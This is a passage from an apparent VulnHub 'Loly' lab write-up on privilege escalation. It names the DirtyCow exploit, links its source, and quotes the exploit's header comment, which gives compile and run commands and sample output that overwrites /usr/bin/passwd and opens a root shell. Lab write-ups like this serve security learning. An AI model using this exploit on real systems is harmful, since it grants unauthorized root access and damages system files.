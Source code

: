 ![img](/assets/vulnhub_loly/bg_7.png)

## Privilage Escalation

As you can see there is a lot suggest of vuln privilage. In this case i want to using dirtcow to getting privilage of root. [here](https://gist.github.com/rverton/e9d4ff65d703a9084e85fa9df083c679) The code to exploit and getting root. 

cowroot.c :
```c
/*
* (un)comment correct payload first (x86 or x64)!
* 
* $ gcc cowroot.c -o cowroot -pthread
* $ ./cowroot
* DirtyCow root privilege escalation
* Backing up /usr/bin/passwd.. to /tmp/bak
* Size of binary: 57048
* Racing, this may take a while..
* /usr/bin/passwd overwritten
* Popping root shell.
* Don't forget to restore /tmp/bak
* thread stopped
* thread stopped
* root@box:/root/cow# id
* uid=0(root) gid=1000(foo) groups=1000(foo)
*
* @robinverton 
*/
```